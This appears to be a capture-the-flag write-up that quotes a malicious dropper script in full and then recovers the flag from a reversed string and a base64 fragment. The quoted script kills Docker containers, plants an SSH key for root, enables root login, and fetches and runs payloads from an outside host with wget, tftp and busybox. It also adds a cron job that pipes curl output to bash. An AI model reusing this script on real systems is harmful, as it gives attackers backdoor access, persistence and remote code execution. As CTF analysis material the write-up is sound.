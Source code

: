 # Description

The Fray is upon us, and the very first challenge has been released! Are you ready factions!? Considering this is just the beginning, if you cannot musted the teamwork needed this early, then your doom is likely inevitable.

We're given the script shown below

```bash
#!/bin/sh

  

if [ "$HOSTNAME" != "KORP-STATION-013" ]; then

    exit

fi

  

if [ "$EUID" -ne 0 ]; then

    exit

fi

  

docker kill $(docker ps -q)

docker rm $(docker ps -a -q)

  

echo "ssh-rsa AAAAB4NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D7s4J0L7XV2kep0rNzgY1S1IdE8HDAf7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B user@tS_u0y_ll1w{BTH" >> /root/.ssh/authorized_keys

echo "nameserver 8.8.8.8" >> /etc/resolv.conf

echo "PermitRootLogin yes" >> /etc/ssh/sshd_config

echo "128.90.59.19 legions.korp.htb" >> /etc/hosts

  

for filename in /proc/*; do

    ex=$(ls -latrh $filename 2> /dev/null|grep exe)

    if echo $ex |grep -q "/var/lib/postgresql/data/postgres\|atlas.x86\|dotsh\|/tmp/systemd-private-\|bin/sysinit\|.bin/xorg\|nine.x86\|data/pg_mem\|/var/lib/postgresql/data/.*/memory\|/var/tmp/.bin/systemd\|balder\|sys/systemd\|rtw88_pcied\|.bin/x\|httpd_watchdog\|/var/Sofia\|3caec218-ce42-42da-8f58-970b22d131e9\|/tmp/watchdog\|cpu_hu\|/tmp/Manager\|/tmp/manh\|/tmp/agettyd\|/var/tmp/java\|/var/lib/postgresql/data/pоstmaster\|/memfd\|/var/lib/postgresql/data/pgdata/pоstmaster\|/tmp/.metabase/metabasew"; then

        result=$(echo "$filename" | sed "s/\/proc\///")

        kill -9 $result

        echo found $filename $result

    fi

done

  

ARCH=$(uname -m)

array=("x86" "x86_64" "mips" "aarch64" "arm")

  

if [[ $(echo ${array[@]} | grep -o "$ARCH" | wc -w) -eq 0 ]]; then

  exit

fi

  
  

cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777 0xda4.0xda4.$ARCH; ./0xda4.0xda4.$ARCH;

cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; tftp legions.korp.htb -c get 0xda4.0xda4.$ARCH; cat 0xda4.0xda4.$ARCH > DVRHelper; chmod +x *; ./DVRHelper $ARCH;

cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; busybox wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777;./0xda4.0xda4.$ARCH;

echo "*/5 * * * * root curl -s http://legions.korp.htb/0xda4.0xda4.$ARCH | bash -c 'NG5kX3kwdVJfR3IwdU5kISF9' " >> /etc/crontab
```

Examining it, there's 2 interesting parts, we see part of the flag reversed `tS_u0y_ll1w{BTH` and from this we know the other part is likely hidden somewhere else within the script.

Near the end there's an odd set of characters that is likely encoded "NG5kX3kwdVJfR3IwdU5kISF9" which when decoded as base 64 gives the other part of the flag 4nd_y0uR_Gr0uNd!!}. Combining them we get the following

HTB{w1ll_y0u_St4nd_y0uR_Gr0uNd!!}